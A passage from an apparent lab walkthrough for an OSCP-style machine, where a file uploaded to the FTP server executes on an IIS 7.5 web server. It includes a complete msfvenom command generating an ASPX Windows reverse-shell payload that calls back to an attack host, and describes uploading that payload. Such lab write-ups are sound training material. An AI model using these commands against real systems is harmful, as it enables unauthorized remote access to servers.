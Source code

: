 In the web browser, check if the test.html file is rendered in the web server.

![](../images/max/571/1*lmTo521jt20qY7YmUILPPg.png)

Alright! This confirms that if we upload a file in the ftp server, and call it in the browser it will get executed by the web server. Our nmap scan showed that the web server is Microsoft IIS version 7.5. IIS web server generally either executes ASP or ASPX \(ASP.NET\). Since the version is 7.5, further googling tells us that it likely supports ASPX.

## Gaining a Foothold <a id="4ff1"></a>

Let’s use MSFvenom to generate our reverse shell. MSFvenom is a framework that is largely used for payload generation. To display the format of payloads it supports, run the following command.

```text
msfvenom --list formats
```

The output shows that aspx is one of the options. Similarly, you can check the payload options with the following command. Since the machine we’re working with is Windows, we filter out the results to only show us Windows payloads.

```text
msfvenom --list payloads | grep windows
```

We’ll go with the general reverse shell since Meterpreter is not allowed in the OSCP.

Run the following MSFvenom command to generate the aspx payload.

```text
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx
```

* **-p**: payload
* **-f**: format
* **LHOST**: attack machine’s \(kali\) IP address
* **LPORT**: the port you want to send the reverse shell across
* **-o**: where to save the payload

Then, we’ll upload the generated payload on the FTP server and confirm that it has been uploaded.

![](../images/max/570/1*UpIYJPkkjtTKyMy76-QgWA.png)

